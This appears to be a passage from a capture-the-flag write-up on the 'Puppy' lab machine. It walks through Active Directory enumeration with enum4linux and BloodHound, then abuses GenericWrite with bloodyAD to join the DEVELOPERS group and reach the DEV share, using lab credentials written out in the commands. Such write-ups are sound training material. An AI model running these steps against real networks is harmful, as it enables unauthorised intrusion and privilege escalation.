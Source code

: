 
## 3. Automated Enumeration

### Enum4Linux Summary

```bash
enum4linux -u 'levi.james' -p 'KingofAkron2025!' puppy.htb
```

- Valid credentials for levi.james
    
- Domain SID: `S-1-5-21-1487982659-1829050783-2281216199`
    
- Critical vulnerability: No account lockout policy
    
- DEV share exists but not listable
    
- Administrative account identified: steph.cooper_adm
    

---

### Time Sync & BloodHound Mapping

Add host to /etc/hosts
```bash
dc.puppy.htb
```

Sync time with DC
```bash
ntpdate puppy.htb
```

Run BloodHound mapping
```bash
bloodhound-python -u 'levi.james' -p 'KingofAkron2025!' -d puppy.htb -ns 10.10.11.70 -c All --zip
```

- BloodHound confirms 1 domain, 1 computer, 10 users, 56 groups.

![puppy_1](https://gianlucabassani.github.io/assets/puppy/puppy_1.jpg)

---
### DEV Share Access & KeePass

Since we have GenercWrite over develpoers group we can add ourself to DEV group:

```bash
bloodyAD --host '10.10.11.70' -d 'dc.puppy.htb' -u 'levi.james' -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james  
```

- levi.james added to DEVELOPERS

```bash
smbclient //10.10.11.70/DEV -U 'levi.james'
```
